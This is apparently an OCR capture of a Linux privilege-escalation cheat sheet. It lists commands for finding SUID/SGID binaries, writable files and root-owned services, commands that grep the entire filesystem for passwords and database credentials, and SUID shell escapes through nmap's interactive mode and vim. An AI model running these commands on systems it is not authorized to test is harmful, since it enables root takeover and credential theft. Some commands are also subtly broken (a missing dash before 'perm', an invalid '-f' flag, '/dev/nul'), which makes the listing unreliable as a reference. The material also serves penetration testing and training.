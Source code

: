 find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "User name that you are looking for" 2>/dev/null  

#### Writable file and nobody files  
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files  
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files  

#### Writable by current user  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  

#### Any script files that we can modify?  
find / -writable -type f -name "*.py" 2>/dev/null     #find all python file that can be write by us  

ls -aRl / | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null       # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null    # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null        # Other  

find / -readable -type f 2>/dev/null               # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null   # Anyone  

#### Any service running by root?  
ps aux|grep "root"  

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?  

#### Find password  
grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always  

#### Exploit Time
#### SUID
##### Is suid bit set on these applications?

Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  
    
Vim  
    Modify system file, e.g. passwd?  
    
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  
    